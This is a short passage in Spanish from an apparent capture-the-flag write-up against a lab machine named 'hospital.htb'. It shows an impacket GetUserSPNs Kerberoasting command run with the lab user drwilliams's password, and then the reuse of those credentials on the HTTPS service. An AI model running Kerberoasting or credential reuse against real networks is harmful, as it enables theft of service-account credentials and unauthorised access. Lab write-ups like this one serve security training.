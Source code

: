 También podemos probar un Kerberoasting con impacket con las credenciales de drwilliams:

```
impacket-GetUserSPNs 'hospital.htb/drwilliams:qwe123!@#' -request
```

![escape](Imagenes/70.png)

Viendo que nos hemos quedado sin alternativas, podemos intentar acceder con las credenciales de drwilliams al servicio https:


![escape](Imagenes/71.png)
